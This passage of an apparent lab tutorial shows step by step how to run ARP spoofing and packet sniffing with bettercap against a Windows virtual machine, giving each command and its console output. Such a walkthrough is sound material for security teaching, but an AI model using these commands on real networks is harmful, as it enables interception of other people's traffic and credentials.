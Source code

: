 _You can type `help` following with the `module` name to grab some details about:_<br><br>
![b2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/c2be3479c96a94b3d2c042e8c8c4df20a4a06b57/bettercap-2.png)


## Setting up the Modules to perform an ARP spoofing


1. Start the **prober** module to send different types of probe packets to each IP in the current subnet in order for the **net.recon** module to detect them. _(Note: the prober module may start automatically the net.recon module)._<br><br>
`net.probe on`

```
10.0.2.0/24 > 10.0.2.42  » net.probe on
10.0.2.0/24 > 10.0.2.42  » [11:43:32] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
10.0.2.0/24 > 10.0.2.42  » [11:43:32] [endpoint.new] endpoint 10.0.2.3 detected as 07:00:27:11:6c:7d .
10.0.2.0/24 > 10.0.2.42  » [11:43:33] [endpoint.new] endpoint 10.0.2.43 detected as 07:00:27:81:d6:f2 .
```
In my lab, the **10.0.2.43** is my Windows virtual machine, this may differ from your virtual environment.

2. Start network hosts discovery:<br><br>
`net.recon on`

* Note: you can type `net.show` to view all the connected clients viewing the IP addresses and MAC addresses.

3. Set the **arp.spoof** module option **fullduplex** to **true**. When you set to true, both the targets and the gateway will be attacked, otherwise only the target (if the router has ARP spoofing protections in place this will make the attack fail).<br><br>
`set arp.spoof.fullduplex true`

4. Specify the target to spoof. _(A comma separated list of MAC addresses, IP addresses, IP ranges or aliases to spoof)._<br><br>
`set arp.spoof.targets 10.0.2.43`

5. Start ARP spoofer:<br><br>
`arp.spoof on`

```
10.0.2.0/24 > 10.0.2.42  » [12:03:58] [sys.log] [inf] arp.spoof enabling forwarding
10.0.2.0/24 > 10.0.2.42  » [12:03:58] [sys.log] [war] arp.spoof full duplex spoofing enabled, if the router has ARP spoofing mechanisms, the attack will fail.
10.0.2.0/24 > 10.0.2.42  » [12:03:58] [sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets.
```

6. Start the packet sniffer:<br><br>
`net.sniff on`

7. Type `help` to list the modules running:<br><br>
![modules2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/9b7efcd559aef438cbbf1aa8a14ceeced52b19d5/bettercap-3.png)
